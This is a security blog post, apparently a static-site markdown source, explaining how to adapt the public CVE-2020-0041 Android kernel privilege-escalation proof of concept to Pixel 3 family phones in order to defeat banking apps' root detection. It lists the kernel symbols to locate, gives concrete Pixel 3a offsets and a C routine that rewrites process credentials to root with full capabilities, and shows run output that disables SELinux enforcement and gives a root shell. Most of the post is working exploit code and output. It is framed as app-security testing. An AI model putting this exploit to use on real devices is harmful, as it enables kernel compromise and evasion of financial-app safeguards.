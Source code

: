 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection." 
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt [bluefrostsecurity](https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/) **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide an improvement to obtain a non-limited root shell. 

## Table of Contents
- [Table of Contents](#table-of-contents)
- [Requirements](#requirements)
- [Adapting the exploit](#adapting-the-exploit)
- [Testing the exploit](#testing-the-exploit)
- [Issues & improvements](#issues--improvements)

## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```bash
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```bash
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using python pip:

```bash
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this line on my .zshrc file.

```bash
export NDK="/home/calabres/NDK"
```

## Adapting the exploit

1. First of all we need to extract the compressed kernel image from the boot.img. For that, we will use the already downloaded tool **abootimg**.

```bash
./abootimg -x [path_to_boot_img]
```

The produced **zImage**, is an image that contains the compressed Android Kernel.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```bash
vmlinux-to-elf [path_to_zImage] kernel.elf
```

3. Use the disassembler of your preference to find the labels related with the exploit offsets found in exploit.c. The labels to find inside the kernel are the following:

```c
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

4. Change exploit.c offsets for the offsets found in your device kernel image, in my case Pixel 3a offsets are:

```c
#define SELINUX_ENFORCING_OFFSET 0x2ffe000
#define MEMSTART_ADDR_OFFSET 0x23a6390
#define SYSCTL_TABLE_ROOT_OFFSET 0x2dda178
#define PROC_DOUINTVEC_OFFSET 0x19e8758
#define INIT_TASK_OFFSET 0x2da1e00L
#define INIT_CRED_OFFSET 0x2db0238
#define OFFSET_PIPE_FOP 0x2173650
```

## Issues & improvements

After the adaptation of the exploit and its execution, you will obtain a root shell; however, this root shell is very limited and you will have some problems executing binaries and creating files. Finding on the Internet I found the issue: *you need to patch the security context of the root user.*

During the exploit execution the process executed need to be patched with the correct security context for the root user. The next function is used to patch the credentials of a specific address:

```c
void patch_task_cred(uint64_t cred_addr, uint32_t init_sid)
{
    uint64_t val;
    struct cred *cred = (void *)cred_addr;
    struct task_security_struct *sec;

    if (cred == NULL)
        return;

    val = 0;
    write32((uint64_t)&cred->uid, val);
    write32((uint64_t)&cred->gid, val);
    write32((uint64_t)&cred->suid, val);
    write32((uint64_t)&cred->sgid, val);
    write32((uint64_t)&cred->euid, val);
    write32((uint64_t)&cred->egid, val);
    write32((uint64_t)&cred->fsuid, val);
    write32((uint64_t)&cred->fsgid, val);
    write32((uint64_t)&cred->securebits, val);

    val = ~(0UL);
    write64((uint64_t)&cred->cap_inheritable, val);
    write64((uint64_t)&cred->cap_permitted, val);
    write64((uint64_t)&cred->cap_effective, val);
    write64((uint64_t)&cred->cap_bset, val);

    sec = (void *)read64((uint64_t)&cred->security);

    if (sec != NULL) {
        write32((uint64_t)&sec->osid, init_sid);
        write32((uint64_t)&sec->sid, init_sid);
    }
}
```

## Testing the exploit 

*The exploit can be built by simply running "make" with the Android NDK in the path. It can also be pushed to a phone attached with adb by doing "make all push". Now just run /data/local/tmp/poc from an adb shell to see the exploit running:*

{{< code language="bash" title="Executing the root exploit" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
{{< /code >}}

I usually run run [rootbeer](https://play.google.com/store/apps/details?id=com.scottyab.rootbeer.sample&hl=es_419&gl=US) sample app for a fast root detection test. Despite this third party library is not using the same detection methods as banking applications is a good way to get an idea of how much your rooted device is hidden. Rootbeer was not able to detect root while using this privilege escalation exploit.

{{< image src="/posts/img/pixelroot/rootbeer.png" alt="Using rootbeer" style="align: center;border-radius: 8px;height: 600px;">}}
